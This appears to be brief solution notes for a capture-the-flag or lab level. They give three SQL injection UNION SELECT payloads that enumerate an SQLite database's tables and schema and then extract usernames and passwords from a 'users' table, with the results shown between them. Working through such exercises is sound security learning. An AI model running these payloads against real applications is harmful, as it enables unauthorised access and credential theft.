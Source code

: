 #Level 1
1 UNION SELECT 1,name FROM sqlite_master WHERE type='table' LIMIT 1,2 -- 

	username -> users

1 UNION SELECT 1, sql FROM sqlite_master WHERE name='users' AND type='table' LIMIT 0,1 -- 

	username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255))

1 UNION SELECT username, password FROM users LIMIT 3,1 -- 
